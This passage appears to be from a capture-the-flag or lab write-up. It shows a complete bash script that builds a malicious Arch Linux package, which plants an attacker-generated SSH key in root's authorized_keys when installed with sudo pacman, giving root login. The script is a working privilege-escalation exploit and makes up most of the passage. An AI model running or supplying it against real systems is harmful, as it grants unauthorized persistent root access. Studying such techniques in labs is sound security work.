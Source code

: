 Checking this [blog](https://thecybersimon.com/posts/Privilege-Escalation-via-Pacman/) it says that we can escalate to `root` by copying the `authorized keys` to `/root/.ssh` and `ssh` to `root`. We can directly use this script.   

```bash
#!/bin/bash

# Create a working directory
mkdir priv && cd priv

# Generate PKGBUILD file
cat <<EOF >PKGBUILD
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege Escalation Package"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "\$srcdir/authorized_keys" "\$pkgdir/root/.ssh/authorized_keys"
}
EOF

# Generate SSH keys
ssh-keygen -t rsa -b 4096 -f id_rsa -N ""
mv id_rsa.pub authorized_keys

# Build the malicious package
makepkg

# Output message
echo "Malicious package created! Run the following command to deploy:"
echo "sudo pacman -U $(pwd)/privesc-1.0-1-any.pkg.tar.zst"
echo "Don't forget to secure your private key: id_rsa"
```

Running the `script`.   

<br/> 
